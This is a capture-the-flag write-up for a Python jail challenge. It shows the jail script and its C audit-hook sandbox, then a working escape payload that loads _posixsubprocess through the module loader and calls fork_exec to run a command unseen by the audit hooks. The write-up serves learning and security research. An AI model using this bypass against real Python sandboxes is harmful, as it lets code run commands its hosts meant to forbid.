 # **obligatory pyjail**
a pyjail

## **Description**
We are given a host and port to connect to as well as a few files. 

`jail.py` contains the python jail main program that is running on the server.
```py
# python3.10 jail.py build
import os
from distutils.core import Extension, setup
if not os.path.exists("./audit_sandbox.so"):
  setup(name='audit_sandbox', ext_modules=[
        Extension('audit_sandbox', ['audit_sandbox.c'])],)
  os.popen("cp build/lib*/audit_sandbox* audit_sandbox.so")
del os
import sys
cod = input(">>> ")
import audit_sandbox
audit_sandbox.install_hook()
del audit_sandbox
del sys.modules['audit_sandbox']
del sys
print(eval(cod))
```

In addition, we are given an `audit_sandbox.c`. This sets up the audit hook that is installed in the `jail.py` file. The hook_func is the most important.
```c
static const char *allow_list[] = {"compile", "exec"};
static const unsigned int allow_list_len = sizeof(allow_list) / sizeof(char *);

static int hook_func(const char *event, PyObject *args, void *userData)
{
    char *ev, *str, *part, *saveptr;
    unsigned int i;
    fprintf(stderr, "native audit log: event = %s\n", event);
    if (!(ev = strdup(event)))
    {
        fputs("Insufficient memory.\n", stderr);
        exit(EXIT_FAILURE);
    }
    fprintf(stderr, "native audit log: event = %s\n", part);
    for (str = ev;; str = NULL)
    {
        part = strtok_r(str, ".", &saveptr);
        if (!part)
            break;
        for (i = 0; i < allow_list_len; ++i)
        {
            if (!strcmp(part, allow_list[i]))
            {
                fprintf(stderr, "native audit log: allowed event = %s\n", part);
                free(ev);
                return 0;
            }
        }
        if (!part) {
            free(ev);
            return 0;
        }
        fprintf(stderr, "native audit log: banned event = %s\n", event);
        free(ev);
        exit(EXIT_FAILURE);
        return 0;
    }
    return 0;
}
```

The audit sandbox bans all audit events thats not `exec` or `compile`.

We can find the list of audit events on the python docs audit event [table](https://docs.python.org/3/library/audit_events.html). Generally anything that accesses file io, reads files, even import, raises an audit event. 


## **Solution**
While playing around with it, I realized that certain imports were not banned. For example,
```py
__import__('os')
__import__('sys')
```

While this will be useful for the final solve, it was still a bit far away. I also noted the comment at the top of the audit sandbox file, that said,
```c
// also stolen from 0ctf pyaucalc
```

In one of the [writeups](https://flagbot.ch/posts/pyaucalc/), they mention the use of `_posixsubprocess.fork_exec`. While this was not used in the that CTF, it got me curious. Looking into it, I found that that function essentially performs exec at a much lower level than what is caught by audit events, as it is written in C. 

We can import `_posixsubprocess` using the `__loader__.load_module` method, which does not raise the `import` audit event. We also do need `os.pipe()`, but this is not a problem as we previously saw that importing os does not raise an audit event.

The final payload was the following.
```py
__builtins__.__loader__.load_module('_posixsubprocess').fork_exec([b"/bin/cat", b'flag.txt'], [b"/bin/cat"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(__import__('os').pipe()), False, False, None, None, None, -1, None)
```

---
## **Flag**: `LITCTF{pls_dont_priv_esc_or_nuke_stuff_kthx_bye}`
---
